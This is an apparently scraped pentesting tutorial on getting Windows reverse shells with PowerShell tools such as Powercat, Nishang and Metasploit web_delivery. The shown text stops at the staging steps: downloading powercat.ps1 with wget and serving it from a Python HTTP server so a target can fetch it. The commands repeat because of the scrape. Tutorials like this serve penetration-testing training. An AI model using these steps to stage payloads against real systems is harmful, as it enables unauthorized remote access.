 ```yaml
---
-layout:post
-categories:技术
---
```

# PowerShell for Pentester: Windows Reverse Shell

[<time class="entry-date published updated" datetime="2021-12-03T13:45:26+00:00">December 3, 2021</time>](https://www.hackingarticles.in/powershell-for-pentester-windows-reverse-shell/) by [Raj Chandel](https://www.hackingarticles.in/author/admin/)

Today, we’ll explore how to acquire a reverse shell using Powershell scripts on the Windows platform.

### Table of Content

* Powercat
* Invoke-PowerShellTcp (Nishang)
* ConPtyShell
* Mini-reverse
* PowerShell Reverse TCP
* Web_delivery (Metasploit)

### Requirements:

Kali Linux

Windows Machine

### Powercat 

Powercat is a basic network utility for performing low-privilege network communication operations. Powercat is a program that offers Netcat’s abilities to all current versions of Microsoft Windows. It tends to make use of native PowerShell version 2 components.

We need to go to the website listed below. Users may download the link because it is a Github website.

wget https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1

wget https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1

<pre class="EnlighterJSRAW enlighter-origin" data-enlighter-language="generic">
wget https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1
</pre>

Let’s transfer this file using Python, we must start the Python server.

python -m SimpleHTTPServer 80

python -m SimpleHTTPServer 80

<pre class="EnlighterJSRAW enlighter-origin" data-enlighter-language="generic">
python -m SimpleHTTPServer 80
</pre>
